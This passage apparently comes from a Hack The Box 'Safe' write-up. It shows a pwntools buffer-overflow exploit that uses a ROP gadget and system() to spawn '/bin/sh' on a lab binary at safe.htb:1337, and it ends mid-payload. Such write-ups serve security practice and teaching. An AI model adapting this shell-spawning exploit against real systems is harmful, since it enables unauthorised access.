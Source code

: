 ![](/assets/images/htb-writeup-safe/ret1.png)

RDI has a null-value so it doesn't point to a memory location I control and therefore is useless at the moment.

Next, I'm gonna use `ropper -f myapp` to look for gadgets I can use to control registers:

![](/assets/images/htb-writeup-safe/ropper.png)

The final exploit looks like this:

```python
from pwn import *

p = remote("safe.htb", 1337)
#p = process("./myapp")

context(os="linux", arch="amd64")
context.log_level = "DEBUG"

JUNK = "A" * 112
JUNK += "/bin/sh\x00" # RBP

"""
ROP chain to populate r13 with system()'s address:

0x0000000000401206: pop r13; pop r14; pop r15; ret;

sym.test() -> Need to JMP to address of system at the end
 (fcn) sym.test 10
   sym.test ();
           0x00401152      55             push rbp
           0x00401153      4889e5         mov rbp, rsp
           0x00401156      4889e7         mov rdi, rsp
           0x00401159      41ffe5         jmp r13
"""

payload = JUNK + p64(0x0000000000401206)    # ROP chain gadget
payload += p64(0x401040)     # pop r13
```